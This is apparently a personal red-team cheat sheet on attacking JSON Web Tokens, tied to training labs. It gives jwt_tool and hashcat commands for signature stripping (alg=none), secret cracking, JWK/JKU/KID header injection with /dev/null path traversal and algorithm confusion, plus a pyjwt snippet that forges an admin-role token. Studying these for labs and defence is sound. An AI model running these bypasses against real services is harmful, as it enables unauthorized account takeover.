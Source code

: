 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![jwt](../../../../_badges/ps-course/jwt.svg)](https://portswigger.net/web-security/jwt)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 JWT is a specification, JWS <small>(mostly)</small>/JWE are implementations.
</div></div>

<hr class="sep-both">

## JWT Tools

<div class="row row-cols-lg-2"><div>

#### jwt-tools (Python)

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(5.7k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/tools/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```
</div><div>

#### jwt.io (Website)

You can also use [jwt.io](https://jwt.io/).

<br>

#### JWT wordlists

A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).

```ps
$ wget "https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list"
```
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

#### JWT — Unverified Signature

[![jwt_unverified_signature](../../../../_badges/ps-lab/jwt/jwt_unverified_signature.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature)

It's possible for the signature to not be checked at all by the server.

```ps
$ jwt_tool 'jwt' -I -pc claim -pv value
```

<br>

#### JWT — Null Signature

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)
[![jwt_flawed_signature_verification](../../../../_badges/ps-lab/jwt/jwt_flawed_signature_verification.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)

If the signature algorithm is not verified, you may set it to 'none,' and remove the signature that is not required anymore.

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 You can use `none`, `None`, `NONE`, etc.

<br>

#### JWT — Weak Secret Key

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)
[![jwt_weak_key](../../../../_badges/ps-lab/jwt/jwt_weak_key.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -p "key" -S hs256 -I -pc claim -pv value
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

<br>

#### JWT — JWK Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_jwk_injection](../../../../_badges/ps-lab/jwt/jwt_jwk_injection.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)

An application may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -X i -T   # attack 'jwk header injection'
$ jwt_tool 'jwt' -X i -T -hc kid -hv jwt_tool  # with kid
$ jwt_tool 'jwt' -X i -I -hc kid -hv jwt_tool -pc claim -pv value
```
</div><div>

#### JWT — JKU Header Injection

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_jku_injection](../../../../_badges/ps-lab/jwt/jwt_jku_injection.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)

The `jku` header contains a URL or a filename used to fetch a key.

* When a asymmetric algorithm such as RS is used:

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -ju "URL/jwks.json" -X s -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

<br>

#### JWT — KID Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
[![jwt_unsecure_file_signature](../../../../_badges/rootme/web_server/jwt_unsecure_file_signature.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)
[![jwt_kid_path_traversal](../../../../_badges/ps-lab/jwt/jwt_kid_path_traversal.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)

The kid header may be present in two scenarios. The first one is to define which key file contains the secret. The second usage is to determines which of the keys in the `jku` we should use.

```shell!
$ # The file "/dev/null" is empty so -p is ""
$ jwt_tool "" -I -hc kid -hv "/dev/null" -S hs512 -p "" -pc claim -pv value
```

➡️ Refer to [Path Traversal](/cybersecurity/red-team/s3.exploitation/vulns/web/path_traversal.md) and my [cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) for more notes.

<br>

#### JWT — Algorithm Confusion Attack

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## Python JWT

<div class="row row-cols-lg-2"><div>

The [pyjwt](https://github.com/jpadilla/pyjwt) <small>(5.3k ⭐)</small> library can be used to manipulate JWT in Python. There are two unmaintained alternatives which are:

* [python-jwt by GehirnInc](https://github.com/GehirnInc/python-jwt) <small>(0.1k ⭐, 2022 🪦)</small>
* [python-jwt by D. Halls](https://github.com/davedoesdev/python-jwt) <small>(0.2k ⭐, 2023 🪦)</small> — has two CVEs

```py
headers = {
    'kid': '/dev/null'
}
payload = {
    'role': 'admin',
    'iat': int(datetime.datetime.now(datetime.UTC).timestamp())
}
```
</div><div>

To install it:

```shell!
$ pip install pyjwt
```

To generate a JWT:

```py
import jwt
token = jwt.encode(payload, '', algorithm='HS512', headers=headers)
```

To decode a JWT:

```py
import jwt
payload = jwt.decode(token, '', algorithms=['HS512'])
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [jwtcrack/jwt2john](https://github.com/Sjord/jwtcrack)
* `cty` (if you can bypass the signature, to try to change the content type and perform deserialization/XXE attacks)
* `x5c` (refer to related CVEs)
</div><div>

```json!
{
    "kid": "jwt_tool",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "...",
        "kid": "jwt_tool",
        "n": "..."
    }
}
```
</div></div>